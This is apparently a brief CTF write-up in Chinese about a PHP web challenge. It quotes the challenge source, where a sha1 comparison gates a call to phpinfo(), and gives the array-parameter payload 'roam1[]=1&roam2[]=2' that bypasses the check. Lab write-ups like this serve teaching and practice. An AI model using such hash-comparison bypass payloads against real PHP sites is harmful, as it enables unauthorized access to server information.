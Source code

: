 ![](<./img/Pasted image 20230215112137.png>)

```
/
```

![](<./img/Pasted image 20230215112320.png>)

嗯？

![](<./img/Pasted image 20230215112339.png>)

尝试`POST`

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){
        show_source(__FILE__);
    }
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }
}
```

简单的数组绕过

```
roam1[]=1&roam2[]=2
```

![](<./img/Pasted image 20230215114149.png>)

#Web #PHP #HTTP #绕过